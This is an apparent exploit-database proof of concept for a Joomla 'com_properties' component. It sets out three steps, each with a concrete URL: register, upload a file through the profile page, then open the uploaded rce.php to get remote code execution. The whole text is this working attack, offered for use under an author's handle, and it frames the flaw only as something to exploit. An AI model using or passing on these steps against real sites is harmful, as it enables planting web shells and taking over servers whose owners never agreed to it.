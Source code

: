 # com_properties
# Exploit Title: Joomla Component 'com_properties' File Upload/RCE
# Google Dork: NA
# Exploit Author: Und3r-r00t
# Tested on: Centos

#PoC  

1- register and login

  http://localhost/index.php?option=com_user&task=register&Itemid=296
  http://localhost/index.php?option=com_user&view=login

2- Upload File 

	http://localhost/index.php?option=com_properties&amp;view=profile&amp;Itemid=19

3- File path

	http://localhost/images/properties/profiles/rce.php


----------------------
github - Und3r-r00t
twitter - @p33rl
----------------------

